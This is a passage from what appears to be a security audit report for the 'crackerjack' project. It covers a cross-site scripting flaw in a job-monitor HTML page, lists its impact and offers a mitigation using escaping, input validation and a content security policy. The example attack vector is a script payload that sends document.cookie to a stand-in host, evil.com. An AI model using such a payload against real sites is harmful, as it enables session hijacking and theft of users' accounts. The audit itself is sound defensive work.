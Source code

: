 **Attack Vector**:

```python
# XSS via job_id parameter
job_id = "<script>fetch('http://evil.com/steal?cookie='+document.cookie)</script>"

# Gets directly injected into HTML:
# f"<title>Job Monitor-{job_id}</title>"
# f"<span class=\"job-id\">{job_id}</span>"
```

**Impact**:

- Cross-site scripting (XSS) attacks
- Session hijacking via cookie theft
- Malicious JavaScript execution in browser contexts
- Client-side security bypass

**Mitigation**:

```python
def _get_monitor_html(job_id: str) -> str:
    import html

    # SECURE: HTML escape user input
    safe_job_id = html.escape(job_id)

    # Validate job_id format
    if not re.match(r"^[a-zA-Z0-9_-]{1,64}$", job_id):
        return "<h1>Error</h1><p>Invalid job ID format</p>"

    return f"""
    <!DOCTYPE html>
    <html>
    <head>
        <title>Job Monitor - {safe_job_id}</title>
        <!-- CSP header -->
        <meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' 'unsafe-inline'">
    </head>
    <body>
        <span class="job-id">{safe_job_id}</span>
        <script>
            const jobId = {json.dumps(job_id)};  // Safe JSON encoding
        </script>
    </body>
    </html>
    """
```

### 🟠 HIGH-004: Unvalidated File Operations in Initialization

**File**: `crackerjack/services/initialization.py`
**Lines**: 86-138
